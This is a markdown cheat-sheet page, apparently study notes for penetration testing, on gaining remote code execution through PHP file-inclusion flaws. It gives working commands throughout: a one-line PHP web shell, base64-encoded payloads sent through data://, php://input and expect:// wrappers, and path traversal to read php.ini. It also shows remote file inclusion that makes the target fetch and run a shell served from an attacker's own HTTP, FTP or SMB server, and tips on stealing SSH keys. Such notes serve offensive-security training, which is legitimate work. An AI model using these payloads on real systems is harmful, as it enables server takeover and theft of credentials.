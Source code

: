 ```yaml
---
layout: default
title: File Inclusion
permalink: /Web/RCE/
---
```


# Remote Code Execution
One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session.
- We may find the database password in a file like `config.php`, which may match a user's password in case they re-use the same password.
- We can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key `id_rsa` and use it to SSH into the system.
- There are ways to achieve remote code execution directly through vulnerable functions.

## Wrappers
### Data Wrapper
However, the data wrapper is only available to use if the (allow_url_include) setting is enabled in the PHP configurations. 
<b>Checking:
We can include the PHP configuration file found at (/etc/php/X.Y/apache2/php.ini) for Apache or at (/etc/php/X.Y/fpm/php.ini) for Nginx, where X.Y is your install PHP version.

```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```
Then:
```
echo '<base64_encoded_string>' | base64 -d | grep allow_url_include
```
Remote Code Execution:
```
echo '<?php system($_GET["cmd"]); ?>' | base64
```
Then in the url bar:
```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<base64_encoded_command>
```
Or use curl:
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
### Input Wrapper
- We pass our input to the input wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work.
- The input wrapper also depends on the `allow_url_include` setting, as mentioned previously.
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
*Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)*

### Expect Wrapper
Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server.
<br>Checking is similar as previously:
```
echo '<base64_encoded_string>' | base64 -d | grep expect
```
We may find that a configuraion keyword is used to enable the except module. Then:
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

## Remote File Inclusion (RFI)
This allows two main benefits:
- Enumerating local-only ports and web applications (i.e. SSRF).
- Gaining remote code execution by including a malicious script that we host.

Some of the functions that (if vulnerable) would allow RFI:
1. PHP
   - include()/include_once()
   - file_get_contents()
2. Java
   - import
3. .NET
   - @Html.RemotePartial()
   - include

### Verify RFI
- Any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled (see earlier).
- A more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to try and include a URL, and see if we can get its content. At first, we should always start by trying to include a local URL to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (http://127.0.0.1:80/index.php) as our input string and see if it gets included:
  `http://<SERVER_IP>:<PORT>/index.php?<param>=http://127.0.0.1:80/index.php`<br>
  Furthermore, this could show us that the index.php page did not get included as source code text but got executed and rendered as PHP, so the vulnerable function also allows PHP execution, which may allow us to execute code if we include a malicious PHP script that we host on our machine.
  *Note: It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.*

### RCE with RFI
#### HTTP
The first step in gaining remote code execution is creating a malicious script in the language of the web application. We can use a custom web shell we download from the internet. <br>
Example:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sudo python3 -m http.server <LISTENING_PORT>
```
Then visit `http://<SERVER_IP>:<PORT>/index.php?<param>=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`.
*Note: We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload*

#### FTP
This may also be useful in case http ports are blocked by a firewall or the http:// string gets blocked by a WAF.
```
sudo python -m pyftpdlib -p 21
```
Then visit `http://<SERVER_IP>:<PORT>/index.php?<param>=ftp://<OUR_IP>/shell.php&cmd=id`.

#### SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the allow_url_include setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

```
impacket-smbserver -smb2support share $(pwd)
```
Then visit `http://<SERVER_IP>:<PORT>/index.php?<param>=\\<OUR_IP>\share\shell.php&cmd=whoami`
<br>*Note: we must note that this technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default*

